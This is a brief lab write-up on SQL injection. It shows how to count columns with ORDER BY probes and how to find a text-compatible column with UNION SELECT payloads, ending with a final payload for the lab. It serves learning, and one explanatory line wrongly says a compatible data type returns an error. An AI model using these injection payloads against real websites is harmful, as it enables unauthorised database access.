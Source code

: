 # Finding a column containing text

Just like previous lab here we are going to use <b>UNION</b> attack but to find text given to us

example query

```
' union select 'a',null,null,null--
' union select null,'a',null,null--
' union select null,null,'a',null--
' union select null,null,null,'a'--
```
if the data type is compatible with the injected string , it will return error

end goal: to find a text conatining column

but first we need to find total number of columns here 

```
' order by 1--
' order by 2--
' ordre by 3--
```
here we have three colummn in which second column contains text , so now time for our payload

payload

```
' union select null, 'OOpujD', null--
```